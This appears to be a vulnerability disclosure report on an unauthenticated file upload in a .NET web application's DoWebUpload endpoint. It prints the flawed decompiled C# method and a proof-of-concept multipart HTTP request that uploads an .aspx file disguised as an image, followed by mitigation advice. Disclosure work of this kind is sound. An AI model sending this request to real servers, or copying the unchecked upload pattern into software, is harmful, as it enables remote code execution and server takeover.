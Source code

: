 ![image-20250203112704381](./assets/image-20250203112704381.png)

![image-20250203112734204](./assets/image-20250203112734204.png)

# Vulnerability Report

## Title: Unauthenticated File Upload Leading to Remote Code Execution (RCE)

## Summary

A critical vulnerability has been identified in the `.NET` web application, specifically in the file upload functionality of the `DoWebUpload` method. This vulnerability allows unauthenticated users to upload arbitrary files, potentially leading to remote code execution and complete server compromise.

## Vulnerability Details

### Affected Endpoint:

`/Api/FileUploadApi.ashx?method=DoWebUpload`

### Affected Function

The vulnerability exists in the following code snippet:

```csharp
  [RequestCheck(CheckLogin = false)]
  public void DoWebUpload()
  {
    string filename = this.bImpl.Request("filename").Replace("+", "").Replace(" ", "").Replace("%", "").Replace(" ", "");
    string str1 = this.bImpl.Request("folder", "file");
    string str2 = this.bImpl.Request("uFolder");
    bool boolean = this.bImpl.Request("uname").ToBoolean();
    int int32 = this.bImpl.Request("existDelay").ToInt32();
    long int64_1 = this.bImpl.Request("position").ToInt64();
    long int64_2 = this.bImpl.Request("totsize", this.bImpl.Request("filesize")).ToInt64();
    string str3 = this.bImpl.Request("idValue");
    string specNo = this.bImpl.Request("speciesno");
    string str4 = this.bImpl.Request("stepCode");
    string str5 = this.bImpl.Request("fileNo");
    if (string.IsNullOrEmpty(specNo) || string.op_Equality(specNo.ToLower(), "false"))
    {
      string attcBmpSpec = new DataImpl().GetAttcBmpSpec(this.ModuleId);
      specNo = string.IsNullOrEmpty(attcBmpSpec) ? "01" : attcBmpSpec;
    }
    if (!string.IsNullOrEmpty(str3) && str3.StartsWith("{") && str3.EndsWith("}"))
    {
      this.response.msg = "请选择一条记录进行上传！";
    }
    else
    {
      Hashtable hashtable = new Hashtable();
      hashtable.Add((object) "username", (object) this.user.UserName);
      hashtable.Add((object) "userid", (object) this.user.UserId);
      hashtable.Add((object) "key", (object) this.bImpl.Request("key"));
      hashtable.Add((object) "filename", (object) filename);
      hashtable.Add((object) "filesize", (object) int64_2);
      hashtable.Add((object) "specNo", (object) specNo);
      hashtable.Add((object) "fileNo", (object) str5);
      hashtable.Add((object) "stepCode", (object) str4);
      hashtable.Add((object) "value", (object) str3);
      hashtable.Add((object) "menucode", (object) this.ModuleId);
      Hashtable fInfos = hashtable;
      bool flag = !string.IsNullOrEmpty(this.ModuleId);
      string fileVPath = flag ? string.Format(Lskj.WebErp.Core.Util.WebConfigUtil.PubModelAccFilePath, (object) this.ModuleId, (object) str3, (object) str5) : (str1.StartsWith("/") ? str1 : string.Format(Lskj.Web.Core.Util.WebConfigUtil.PubModelFilePath, (object) str1, (object) this.ModuleId, (object) (DateTime.Now.ToString("yyyyMMdd") + (string.IsNullOrEmpty(str2) ? "" : "/" + str2))));
      if (flag && (((NameObjectCollectionBase) this.Request.Files).Count > 0 || int64_1 == 0L && int64_2 > 0L))
      {
        this.CheckAttcOper(1, filename, int64_2, specNo);
        if (!this.response.success)
          return;
      }
      if (((NameObjectCollectionBase) this.Request.Files).Count > 0)
      {
        ArrayList arrayList = new ArrayList();
        for (int index = 0; index < ((NameObjectCollectionBase) this.Request.Files).Count; ++index)
        {
          HttpPostedFile file = this.Request.Files[index];
          BaseResponse baseResponse = FileUtil.SaveFile(file, fileVPath, boolean ? (string) null : file.FileName, "");
          if (baseResponse.success)
          {
            fInfos[(object) "fPath"] = (object) ((FileUtil.PathInfo) baseResponse.data).RelativePath;
            if (flag)
              baseResponse = this.moduleImpl.AddAttcFileInfo(fInfos);
            if (baseResponse.success)
              arrayList.Add(baseResponse.data);
            else
              FileUtil.DeleteFile(fileVPath, filename);
          }
        }
        this.response.success = true;
        this.response.data = arrayList.Count > 1 ? (object) arrayList : arrayList[0];
      }
      else
      {
        string end = ((TextReader) new StreamReader(this.Request.InputStream, this.Request.ContentEncoding)).ReadToEnd();
        try
        {
          if (!flag)
            ;
          byte[] numArray = Convert.FromBase64String(end);
          if (numArray.Length != 0)
          {
            this.response = FileUtil.SaveFile(numArray, int64_1, int64_2, fileVPath, filename, this.AppDomain, !flag);
            if (this.response.data is FileUtil.PathInfo data)
              data.UserName = this.user.UserName;
          }
          if (flag && this.response.success && int64_1 + (long) numArray.Length >= int64_2)
          {
            fInfos[(object) "fPath"] = (object) ((FileUtil.PathInfo) this.response.data).RelativePath;
            fInfos[(object) "totTime"] = (object) FileUploadApi.GetVideoInfo(((FileUtil.PathInfo) this.response.data).SavePath);
            this.response = this.moduleImpl.AddAttcFileInfo(fInfos);
            if (!this.response.success)
            {
              FileUtil.DeleteFile(fileVPath, filename);
            }
            else
            {
              string str6 = HttpContext.Current.Server.MapPath("/DocHtml/" + new Regex(string.Format("{0}$", (object) Enumerable.Last<string>((IEnumerable<string>) filename.Split(new char[1]
              {
                '.'
              }))), (RegexOptions) 8).Replace(filename.Replace("#", ""), "").Replace(filename.Replace(" ", ""), "") + ".html");
              if (File.Exists(str6))
                File.Delete(str6);
            }
          }
          if (!this.response.success || int32 <= 0 || int64_1 + (long) numArray.Length < int64_2)
            return;
          DateTimeUtil.SetTimeOut((TimerCallback) (o => FileUtil.DeleteFile(fileVPath, filename)), int32 * 1000);
        }
        catch (Exception ex)
        {
          throw ex;
        }
      }
    }
  }
```

### Description

The `DoWebUpload` method is marked with `[RequestCheck(CheckLogin = false)]`, indicating that it does not require user authentication. This allows any user, including unauthenticated users, to access this method. The method processes file uploads without proper validation or sanitization of the uploaded file content and type. This can be exploited to upload malicious files (e.g., `.aspx` files containing server-side scripts), which can then be executed by the server, leading to remote code execution.

### Proof of Concept (PoC)

The following HTTP request demonstrates how an attacker can exploit this vulnerability to upload a malicious `.aspx` file:

```http
POST /Api/FileUploadApi.ashx?method=DoWebUpload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: */*
Connection: close

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/jpeg

Test
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

### Impact

Successful exploitation of this vulnerability allows an attacker to:

1. Upload arbitrary files to the server.
2. Execute malicious code on the server, leading to full control over the server.
3. Access sensitive data and potentially compromise the entire application and its users.

## Recommendations

To mitigate this vulnerability, the following actions are recommended:

1. **Require Authentication**: Ensure that the `DoWebUpload` method requires user authentication by setting `[RequestCheck(CheckLogin = true)]`.
   
2. **Input Validation**: Implement strict input validation to verify the file type, size, and content before processing the upload. Only allow specific file types and reject any potentially dangerous files.

3. **File Storage**: Store uploaded files in a directory that is not accessible for execution by the web server.

4. **Security Best Practices**: Follow secure coding practices and regularly review the application code for potential vulnerabilities.

5. **Security Patches**: Keep the .NET framework and all third-party libraries up to date with the latest security patches.

By implementing these recommendations, the risk of remote code execution and unauthorized access can be significantly reduced.

### Conclusion:

This critical vulnerability should be addressed immediately to prevent potential exploitation. By implementing the recommended security measures, the risk of unauthorized file uploads and remote code execution can be significantly reduced.

### References:

- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [Microsoft Secure Coding Guidelines](https://docs.microsoft.com/en-us/dotnet/standard/security/secure-coding-guidelines)